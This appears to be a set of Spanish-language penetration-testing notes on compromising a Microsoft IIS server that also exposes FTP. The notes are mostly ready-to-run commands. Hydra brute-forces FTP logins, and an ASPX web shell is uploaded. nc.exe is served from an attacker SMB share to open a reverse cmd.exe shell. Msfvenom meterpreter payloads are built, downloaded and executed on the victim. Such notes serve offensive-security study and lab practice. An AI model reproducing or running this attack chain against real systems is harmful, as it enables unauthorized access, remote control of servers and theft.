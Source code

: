 
---

Esta vulnerabilidad radica en el servicio habilitado de IIS (Internet Información Services) mediante un sitio web, al ejecutar un escaneo, esto nos tendria que aparecer:

![[Pasted image 20251021155536.png]]

*En donde esta abierto el protocolo 21 que a menudo se asocia con IIS y esta abierto el protocolo http del puerto 80 con el servicio de Microsoft IIS*

- Para esto podemos ejecutar primeramente un ataque de fuerza bruta para el puerto [[p21 - FTP (File Transfer Protocol)]] de la siguiente manera

```bash
hydra -L /usr/share/wordlist/seclist/usernames/xato-net-10-million-usernames.txt -P /usr/share/wordlist/seclist/passwords/xato-net-10-million-passwords-100000.txt ftp://192.168.1.20  # Esto en caso de no saber ni usuario ni contraseña
```

*procedemos a entrar con las credenciales al protocolo ftp*

- Una ves ingresando podremos ver los archivos de gestión de la pagina web como el index y otros recursos, Para poder realizar una ejecución remota de comandos podemos subir una shell de la siguiente manera:

```bash
find / -name cmdasp.aspx 2>/dev/null   # Buscamos la shell .aspx en nuestra maquina atacante 
cp /usr/share/webshells/aspx/cmdasp.aspx . # Copiamos la web shell a nuestro directorio actual de trabajo en nuestra maquina atacante
ftp >
	put cmdasp.aspx  # Dentro de la consola ftp , colocamos la web shell y ya podriamos acceder por la pagina web 
```

###### Si no llega a estar la web Shell en nuestra maquina atacante la podríamos crear con [[1. MsfVenom]] 

- Este seria el apartado de creación de la web shell :
-
![[Pasted image 20251021160849.png]]


*Obtener la Reverse Shell mediante Recursos compartidos*

```bash
find / -name nc.exe 2>/dev/null  # Buscamos la shell que queremos en nuestra maquina atacante, este caso es la de binarios 
cp /usr/share/windows-resources/binaries/nc.exe . # Copiamos el codigo malicioso a nuestro directorio
impacket-smbserver recurso $(pwd) -smb2support # Levantamos el servidor de recurso compartido

nc -nlvp 443 # En otra ventana nos ponemos en escuha
```

- En la web shell de la maquina victima procedemos a ejecutar lo siguiente:

```bash
\\<IpAtacante>\recurso\nc.exe -e cmd.exe <IpAtacante> 443  # Nos mandariamos una reverse shell a nuestra sesion de escucha 
```

--- 
#### Cambio a una sesión Meterpreter

- En nuestra maquina Atacante procedemos a crear el payload que establecera una sesión de meterpreter, con el siguiente comando:
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IpAtacante> LPORT=444 -f exe -o shell.exe
```

- Con el payload ya creado, podemos descargarlo desde la maquina victima con Curl o con Wget , si no estan instalados procederemos a levantarnos otra ves un servidor de recursos compartidos de la siguiente manera:

```bash
impacket-smbserver recurso $(pwd) -smb2support
```

- Con el servidor ya lanzado, tendríamos que ponernos en una ruta de escritura en la maquina victima de la siguiente manera:

*Recordar ponerse en escucha con [[Metasploit]] en el modulo /multi/handler por la maquina Atacante , seteando ip, puerto y el mismo PAYLOAD de la shell de msfvenom*
```bash 
cd /temp  # Nos movemos hasta ir al directorio temp
copy \\<IpAtacante>\recurso\shell.exe shell.exe  # Nos descargamos la shell.exe en la maquina victima
shell.exe   # Ejecutamos la shell
```


---

# Forma de Explotación 2 

- Creamos la shell con msfvenom y la subimos por ftp de la siguiente manera

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.223.174 LPORT=4444 -f aspx -o shell.aspx  # Extension de archivo aspx 
ftp <Ipvictima>  # Iniciamos sesion por ftp , el Usuario que pediran lo normal es que sea anonymous y la contraseña vacia (ENTER)
ftp > 
	put shell.aspx # Subimos la shell a los archivos del sitio web
	
# Despues solo llendo a la url donde esta la shell se activira y nos dara la conexion multi handler  "http://192.168.0.1/shell.aspx"
# Recordar Estar en escucha con el modulo /multi/handler de metaesploit y setear los mismos parametros de payload , lhost y lport 
```
